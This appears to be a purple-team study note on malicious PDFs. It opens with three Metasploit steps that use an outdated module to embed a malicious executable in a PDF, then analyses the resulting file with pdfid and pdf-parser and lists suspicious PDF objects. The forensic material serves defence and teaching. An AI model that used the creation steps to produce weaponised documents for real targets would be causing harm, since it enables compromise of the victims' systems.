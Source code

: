 # Malicious PDF Payload Creation & Forensics
Tags: #Forensics #PDF #ReverseShell #Meterpreter #Paper #PurpleTeam
Links:

---

# How to generate a malicious PDF (CVE)
1. Head to Metasploit and search for the module `windows/fileformat/adobe_pdf_embedded_exe`;
2. List the options with the command `options` and set `INFILENAME` with the name and path of the PDF file you want to embed with malware using the command: `set INFILENAME /path/to/filename.pdf`; (if there is none, leave it as it is. The script will generate a PDF for you)
3. Execute the exploit with the command: `exploit`;

Now you have PDF with a malicious ".exe" binary embedded that exploits a buffer overflow.

> PS: There are multiple ways to embed malicious code in a PDF, this is just one simple way (and it is outdated)

## How to perform the analysis

1. Locate the PDF file you want to analyse;
2. Execute the command `pdfid <filename.pdf>`
   
   The output shoud be something like this:
   ```
   ┌──(root㉿WarMachine)-[~/.msf4/local]
   └─# pdfid evil.pdf         
   PDFiD 0.2.8 evil.pdf
   PDF Header: %PDF-1.5
   obj                  149
   endobj               149
   stream                34
   endstream             34
   xref                   2
   trailer                2
   startxref              2
   /Page                  2
   /Encrypt               0
   /ObjStm                0
   /JS                    1
   /JavaScript            1
   /AA                    1
   /OpenAction            1
   /AcroForm              0
   /JBIG2Decode           0
   /RichMedia             0
   /Launch                1
   /EmbeddedFile          0
   /XFA                   0
   /Colors > 2^24         0
   ```
3. Use a program called `pdf-parser` to search for these objects within the PDF. Some commands are:
   ```
   To search for occurences of such objects:
   > pdf-parser -s Launch evil.pdf
   > pdf-parser -s JS evil.pdf
   > pdf-parser -s JavaScript evil.pdf
   > pdf-parser -s AA evil.pdf
   
   To list specific object:
   > pdf-parser -o 144,145,146,147 evil.pdf
   
   To dump streams found:
   > pdf-parser -o 145 -f evil.pdf -d dump.txt
   ```
4. Analyze the objects and locate malicious code;

Some tips:
> 1. The presence of objects such as `/JS`, `/JavaScript`, `/OpenAction`, `/AA`, `/Launch` in a PDF are highly suspicious;
> 2. The occurence of obfuscated content indicates likely malicious intent

## References
- https://www.aldeid.com/wiki/Pdf-parser
- https://henryfbp.github.io/posts/2020-04-27-analyzing-document-based-malware-and-reverse-engineering-it/#pdf-file-format
- https://www.hackercoolmagazine.com/pdf-forensics-kali-linux-pdfid-pdfparser/